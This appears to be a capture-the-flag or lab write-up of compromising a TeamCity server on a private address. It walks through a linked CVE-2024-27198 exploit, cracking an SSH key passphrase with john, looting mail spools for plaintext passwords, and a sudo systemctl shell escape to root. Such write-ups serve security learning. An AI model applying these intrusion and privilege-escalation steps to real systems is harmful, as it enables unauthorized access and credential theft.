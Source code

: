 **IP:** `192.168.124.91`  
**OS/TECHNO:** Ubuntu / TeamCity  

---

## Users & Credentials
- Found via CVE exploitation: `admin:admin` (TeamCity)
- Discovered SSH key in repo commit → cracked passphrase
- From mail:  
  - `matthew : IdealismEngineAshen476`  
  - `dach : RefriedScabbedWasting502`

---

## Services
- `22/tcp` → OpenSSH 8.2p1 (Ubuntu 4ubuntu0.11)  
- `25/tcp` → Postfix SMTP (Ubuntu)  
- `80/tcp` → Nginx 1.18.0 → redirect to `http://teams.onlyrands.com/` (TeamCity login)  
- `443/tcp` → Closed (reset)  

---

## Nmap Output
```bash
PORT    STATE  SERVICE REASON         VERSION
22/tcp  open   ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
25/tcp  open   smtp    syn-ack ttl 61 Postfix smtpd
|_banner: 220 onlyrands.com ESMTP Postfix (Ubuntu)
80/tcp  open   http    syn-ack ttl 61 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp closed https   reset ttl 61
Service Info: Host: onlyrands.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Exploitation Path

### 1. TeamCity Exploit
- Found TeamCity version: `2023.05.4 (build 129421)`.  
- CVE-2023-42793 (RCE) didn’t work.  
- Used [CVE-2024-27198](https://github.com/rampantspark/CVE-2024-27198) → created a new admin user:  
  ```
  admin : admin
  ```

### 2. Source Code → SSH Key
- Examined commits → discovered SSH private key for `marcot`.  
- Used **ssh2john + john** to crack passphrase:
  ```bash
  python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```
- Got valid password → shell as `marcot`.

### 3. Mail Looting
- Checked local mail spools `/var/mail/` and `/var/spool/mail/`.  
- Found message from `matthew` → revealed credential:
  ```
  matthew : IdealismEngineAshen476
  ```
- Switched to `matthew`.

### 4. Matthew’s Home Directory
- Found hidden note containing Dach’s password:
  ```
  dach : RefriedScabbedWasting502
  ```

### 5. Privilege Escalation
- With Dach’s account, checked sudo:
  ```bash
  sudo -l
  ```
  Output:
  ```
  (ALL) NOPASSWD: /usr/bin/systemctl status teamcity-server.service
  ```

- Exploited with systemctl shell escape:
  ```bash
  sudo systemctl status teamcity-server.service
  !sh
  ```

- **Root shell obtained** 
